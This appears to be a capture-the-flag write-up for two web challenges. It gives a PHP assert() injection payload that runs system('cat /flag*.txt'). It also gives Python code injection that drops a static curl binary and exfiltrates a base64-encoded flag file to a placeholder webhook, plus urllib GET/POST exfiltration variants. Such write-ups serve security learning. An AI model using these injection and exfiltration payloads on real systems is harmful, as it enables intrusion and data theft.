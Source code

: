 Our input directly used in the `assert()` function. Won't that be dangerous? After try and error we can read the flag with the following payload

```bash 
# URL Encoded
test%27,%27..%27)%20or%20die(system(%27cat%20/flag*.txt%27));//

# Original 
test','..') or die(system('cat /flag*.txt'));//
```

![image](https://hackmd.io/_uploads/rJ42iLYu0.png)

Flag: `ictf{assertion_failed_e3106922feb13b10}`

### P2C

![image](https://hackmd.io/_uploads/ryjL3LtdC.png)

I feel that my solution for this challenge is unintended. By using local environment, I noticed that it's possible to execute python code. If we insert `print(1)`.

![image](https://hackmd.io/_uploads/H14TDvYOA.png)


The following temporary file with `code*.py` will be created in `/tmp/uploads` directory.

![image](https://hackmd.io/_uploads/rJ3UPPK_0.png)

Since we are able to inject any python code in `main()` function. We just need to create a payload that will send us back the `flag.txt` content. But the docker environment did not include `wget` or `curl`. So, I used [curl static binary](https://github.com/moparisthebest/static-curl?tab=readme-ov-file) to exfiltrate `flag.txt`

```py 
import base64,os
curl_content=b"<BASE64_CURL_CONTENT"
open("/tmp/curl","wb").write(curl_content)
os.system("chmod +x /tmp/curl;/tmp/curl https://<WEBHOOK_SERVER>/?content=`cat flag.txt |base64 -w0`")
```

![image](https://hackmd.io/_uploads/rkwoOwKdC.png)

**NOTES:** *Actually urllib library can be use also xD*

```py
# POST Method
from urllib.request import urlopen, Request
httprequest = Request('https://<WEBHOOK>/',data=open("flag.txt","r"),method='POST')
urlopen(httprequest)

# GET Method
from urllib.request import urlopen, Request
httprequest = Request('https://<WEBHOOK>/?='+open("flag.txt","r").read())
urlopen(httprequest)
```

